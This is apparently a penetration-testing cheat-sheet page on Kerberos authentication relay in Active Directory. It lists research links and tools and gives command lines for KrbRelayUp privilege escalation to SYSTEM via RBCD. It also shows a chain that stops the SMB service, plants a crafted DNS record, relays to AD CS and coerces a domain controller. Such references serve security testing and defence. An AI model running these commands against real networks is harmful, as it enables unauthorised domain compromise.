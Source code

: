 # Kerberos Relay

- [https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- [https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)
- [https://decoder.cloud/2025/04/24/from-ntlm-relay-to-kerberos-relay-everything-you-need-to-know/](https://decoder.cloud/2025/04/24/from-ntlm-relay-to-kerberos-relay-everything-you-need-to-know/)




## mitm6 + Kerberos DNS Relay + AD CS ESC8

- [https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)




## Tools



### KrbRelay

- [https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)
- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
- [https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html](https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html)



### KrbRelayUp

- [https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
- [https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/](https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/)
- [https://github.com/BronzeBee/DavRelayUp](https://github.com/BronzeBee/DavRelayUp)
- [https://github.com/Dec0ne/DavRelayUp](https://github.com/Dec0ne/DavRelayUp)


#### RELAY

Relay authentication to LDAP(S) with automatic machine creation and configure RBCD:

```
PS > .\KrbRelayUp.exe RELAY [-d|--Domain megacorp.local] [-dc|--DomainController DC01.megacorp.local] [-m|--Method RBCD] -c|--CreateNewComputerAccount [-cn|--ComputerName FAKEMACHINE$] [-cp|--ComputerPassword Passw0rd!]
```

Perform RBCD with UPNs:

```
PS > .\KrbRelayUp.exe RELAY -u2u -cn j.doe -cp Passw0rd!
```

{% content-ref url="/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd.md#rbcd-with-upns" %}
[rbcd.md](rbcd.md)
{% endcontent-ref %}


#### SPAWN

Execute a command as NT AUTHORITY\\SYSTEM via RBCD abuse:

```
PS > .\KrbRelayUp.exe SPAWN [-m|--Method RBCD] [-i|--Impersonate administrator] [-s|ServiceName PwnSVC] [-sc|--ServiceCommand C:\Windows\System32\cmd.exe] -cn|--ComputerName FAKEMACHINE$ -cp|--ComputerPassword Passw0rd! [or -ch|--ComputerPasswordHash fc525c9683e8fe067095ba2ddc971889]
```

{% hint style="warning" %}
As [@ShitSecure](https://twitter.com/ShitSecure) mentioned, executing the binary as a .NET Reflective Assembly from PowerShell will fail because the PowerShell process will have already initialized the security parameters for COM itself after having been launched, so `CoInitializeSecurity` will not contain those new parameters attempted to set by KrbRelay(Up).
{% endhint %}



### RemoteKrbRelay

- [https://habr.com/ru/articles/848542/](https://habr.com/ru/articles/848542/)
- [https://github.com/CICADA8-Research/RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay)
- [https://github.com/rtecCyberSec/RemoteKrbRelay/tree/ntlm](https://github.com/rtecCyberSec/RemoteKrbRelay/tree/ntlm)



### KrbRelay-SMBServer

- [https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html](https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html)
- [https://github.com/decoder-it/KrbRelay-SMBServer](https://github.com/decoder-it/KrbRelay-SMBServer)
- [https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx)
- [https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with)

Stop services with Cmd:

```
Cmd > sc config LanmanServer start= disabled & sc stop LanmanServer & sc stop srv2 & sc stop srvnet
Cmd > sc config LanmanServer start= auto & sc start LanmanServer & sc start srv2 & sc start srvnet
```

Stop services with PowerShell:

```
PS > Invoke-DNSUpdate -DNSName adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -DNSData 10.10.13.37
PS > Set-Service -Name LanmanServer -StartupType Disabled; Stop-Service -Name LanmanServer -Force; Stop-Service -Name srv2 -Force; Stop-Service -Name srvnet -Force
PS > .\KrbRelay.exe -spn HTTP/ADCS.megacorp.local -redirecthost adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv -adcs DomainController -listenerport 445
$ dfscoerce.py -d megacorp.local -u snovvcrash -k -no-pass adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA DC01.megacorp.local
PS > Set-Service -Name LanmanServer -StartupType Automatic; Start-Service -Name LanmanServer; Start-Service -Name srv2; Start-Service -Name srvnet
```
